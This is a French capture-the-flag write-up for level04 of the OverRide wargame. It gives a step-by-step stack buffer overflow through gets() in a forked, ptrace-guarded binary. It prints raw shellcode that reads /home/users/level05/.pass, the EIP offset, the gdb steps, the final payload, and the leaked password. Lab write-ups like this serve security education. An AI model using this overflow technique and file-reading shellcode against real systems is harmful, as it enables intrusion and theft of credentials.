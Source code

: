 Ce binaire est particulier. 
Tout d'abord un buffer de 32 bytes est declare. Ensuite, le programme fait un `fork`. 
Il va donc se derouler en deux "sous-parties" :

**Le fils :**

Le fils va faire un appel un ptrace() afin qu'il soit trace par le pere et qu'ils puissent "echanger" des signaux.

`ptrace(0, 0, NULL, NULL);`

Ensuite, une string indiquant `Give me some shellcode, k` va etre afficher grace a un puts, puis, via un gets() nous allons 
etre invite a remplir le buffer de 32 bytes : 

    puts("Give me some shellcode, k");
    gets(str);
    
gets() est bien entendu vulnerable aux BoF.

**Le pere :**

Le pere, quant a lui, va se mettre en wait() afin d'attendre que le processus fils s'execute (autrement dit, il va attendre qu'on utilise gets) 
puis en suite il va exit. Cependant, grace a ptrace(), il va aussi verifier que le fils n'utilise pas de syscall `exec()`, auquel cas, nous avons un joli
`no exec() for you` puis un kill.

Nous savons maintenant que nous ne pourrons pas executer un shellcode avec pour instruction "exec".
Le trick sera donc de trouver un shellcode permettant de lire dans un fichier (dans notre cas, /home/users/level05/.pass)

En voici un : http://shell-storm.org/shellcode/files/shellcode-73.php

`export TOTO=$(python -c "print('\x90'*100 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level05/.pass')")`

Nous avons juste besoin de l'offset necessaire pour ecraser EIP, puis de l'adresse de notre shellcode.
Apres plusieurs tentatives de `print('A'*x)` nous pouvons en deduire que l'offset est de 156.

Il suffit de recuperer l'adresse de notre shellcode :

    $ gdb level04
    $ start
    $ x/1000xg $esp
    -> piocher une adresse dans le NOP-Sled

Nous avons donc notre payload final :

`python -c "print('A'*156 + '\x50\xd8\xff\xff')"`


`level04@OverRide:~$ python -c "print('A'*156 + '\x50\xd8\xff\xff')" | ./level04 
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
child is exiting...`

